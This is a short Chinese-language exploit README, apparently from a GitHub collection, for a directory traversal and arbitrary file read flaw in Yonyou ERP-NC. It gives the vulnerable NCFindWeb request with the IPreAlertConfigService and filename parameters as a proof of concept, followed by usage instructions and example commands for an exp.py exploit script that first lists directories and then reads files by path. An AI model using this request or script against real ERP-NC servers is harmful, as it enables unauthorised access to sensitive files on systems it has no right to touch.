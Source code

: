 



# 用友ERP-NC目录遍历及任意文件读取

## 漏洞简介

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

用友ERP-NC

## POC

```
/NCFindWeb?service=IPreAlertConfigService&filename=
/NCFindWeb?service=IPreAlertConfigService&filename=filename
```

## 脚本使用

```
Usage: exp.py [OPTIONS]

Options:
  -u, --url TEXT       目标url
  -f, --filename TEXT  读取文件的名字
  --help               Show this message and exit.
```

目录遍历：

```bash
python3 exp.py --url http://127.0.0.1
```

任意文件读取：

```bash
python3 exp.py --url http://127.0.0.1 --filename a.txt
```

读取文件内容时，可以通过先目录遍历获取文件路径，读取文件内容时，将文件路径传递给filename 参数





